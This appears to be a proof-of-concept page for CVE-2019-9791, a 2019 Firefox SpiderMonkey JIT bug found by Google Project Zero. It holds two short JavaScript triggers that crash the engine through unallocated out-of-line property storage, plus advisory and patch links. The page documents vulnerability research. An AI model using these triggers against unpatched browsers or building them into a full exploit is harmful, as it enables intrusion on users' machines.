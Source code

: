 # CVE-2019-9791

- Report: Feb 2019
- Fix: Mar 2019
- Credit: Samuel Gross, Google Project Zero

## PoC

```javascript
// Run with --no-threads --ion-warmup-threshold=100
function Hax(val, l) {
    this.a = val;

    for (let i = 0; i < l; i++) {}

    this.x = 42;
    this.y = 42;
    // After conversion to a NativeObject, this property
    // won't fit into inline storage, but out-of-line storage
    // has not been allocated, resulting in a crash @ 0x0.
    this.z = 42;
}

for (let i = 0; i < 10000; i++) {
    new Hax(13.37, 1);
}
let obj = new Hax("asdf", 1000000);
```

original sample

```javascript
function v5(v6, v8) {
    if (v8) {
        // Triggers the rollback etc. in a recursive call.
        const v11 = new v5(v6);
        const v13 = new Float32Array(40183);
        for (const v14 of v13) {
        }
    }
    // This property assignment crashes as out-of-line 
    // property storage has not been allocated yet.
    this[-3083318214] = v6;
}
for (let v19 = 0; v19 < 1337; v19++) {
    const v21 = new v5(32768, false);
}
const v22 = new v5(v5, true);
```

## Reference

- [Mozilla](https://www.mozilla.org/en-US/security/advisories/mfsa2019-08/#CVE-2019-9791)
- [Bugzilla](https://bugzilla.mozilla.org/show_bug.cgi?id=1505574)
- [Patch1](https://github.com/mozilla/gecko-dev/commit/67fc2c30797036217de91cdb4b6d77a876bed7db)
- [Patch2](https://github.com/mozilla/gecko-dev/commit/a4d10aaa50842ef6b15ef8982ab0c4b478ef9109)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1791)

